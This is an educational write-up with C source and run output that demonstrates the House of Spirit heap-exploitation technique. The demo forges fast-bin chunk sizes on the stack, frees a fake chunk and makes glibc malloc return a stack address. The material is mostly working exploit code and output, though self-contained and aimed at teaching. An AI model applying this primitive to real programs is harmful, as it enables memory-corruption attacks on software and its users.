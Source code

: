 # House of Spirit Explanation

So this is a well documented C source file that explains how a House of Spirit attack works. It was ran on Ubuntu 16.04. Essentially with a House of Spirit attack, we create two fake chunks by writing two integers to a region of memory that will represent the sizes of the fake chunks. Then we get a pointer to point to the first fake chunk, and free it. Then we get malloc to return a pointer to that memory region. So it essentially allows us to get malloc to return a pointer to a region of memory that we can write two integers to.

It might seem a bit redundant since we can already write to this memory region. However if we can get malloc to return a pointer to a memory region, depending on the code we should be able to edit/view/manipulate that region of memory differently.

Here is the source code:
```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	puts("So we will be covering a House of Spirit Attack.");
	puts("A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).");
	puts("In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.");
	puts("To setup the fake chunks, we will need to write fake size values for the chunks.");
	puts("Also the first fake chunk is where we will want our chunk returned by malloc to be.");
	puts("Let's get started!\n");


	unsigned long array[20];
	printf("So we start off by initializing our array on the stack.\n");
	printf("Array Start: %p\n", array);
	printf("Our goal will be to allocate a chunk at %p\n\n", &array[2]);


	printf("Now we need to write our two size values for the chunks.\n");
	printf("There are three restrictions we have to meet.\n\n");

	printf("0.) Size of the chunks must be within the fast bin range.\n");
	printf("1.) The size values must be placed where they should if they were an actual chunk.\n");
	printf("2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.\n");
	printf("That should be larger than the argument passed to malloc.\n\n");

	printf("Also as a side note, the two sizes don't have to be equal.\n");
	printf("Check the code comments for how the fake heap chunks are structured.\n");
	printf("With that, let's write our two size values.\n\n");

	/*
	this will be the structure of our two fake chunks:
	assuming that you compiled it for x64

	+-------+---------------------+------+
	| 0x00: | Chunk # 0 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x08: | Chunk # 0 size      | 0x60 |
	+-------+---------------------+------+
	| 0x10: | Chunk # 0 content   | 0x00 |
	+-------+---------------------+------+
	| 0x60: | Chunk # 1 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x68: | Chunk # 1 size      | 0x40 |
	+-------+---------------------+------+
	| 0x70: | Chunk # 1 content   | 0x00 |
	+-------+---------------------+------+

	for what we are doing the prev size values don't matter too much
	the important thing is the size values of the heap headers for our fake chunks
	*/

	array[1] = 0x60;
	array[13] = 0x40;

	printf("Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.\n");
	printf("This will be the ptr that we get malloc to return for this attack\n");

	unsigned long *ptr;
	ptr = &(array[2]);

	printf("Address: %p\n\n", ptr);

	printf("Now we will free the pointer to place it into the fast bin.\n");

	free(ptr);

	printf("Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].\n\n");

	unsigned long *target;
	target = malloc(0x50);

	printf("returned pointer: %p\n", target);

}
```

When we run it:
```
$	./house_spirit_exp 
So we will be covering a House of Spirit Attack.
A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).
In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.
To setup the fake chunks, we will need to write fake size values for the chunks.
Also the first fake chunk is where we will want our chunk returned by malloc to be.
Let's get started!

So we start off by initializing our array on the stack.
Array Start: 0x7ffd2d2cbc10
Our goal will be to allocate a chunk at 0x7ffd2d2cbc20

Now we need to write our two size values for the chunks.
There are three restrictions we have to meet.

0.) Size of the chunks must be within the fastin range.
1.) The size values must be placed where they should if they were an actual chunk.
2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.
That should be larger than the argument passed to malloc.

Also as a sidenote, the two sizes don't have to be equal.
Check the code comments for how the fake heap chunks are structured.
With that, let's write our two size values.

Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.
This will be the ptr that we get malloc to return for this attack
Address: 0x7ffd2d2cbc20

Now we will free the pointer to place it into the fast bin.
Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].

returned pointer: 0x7ffd2d2cbc20
```

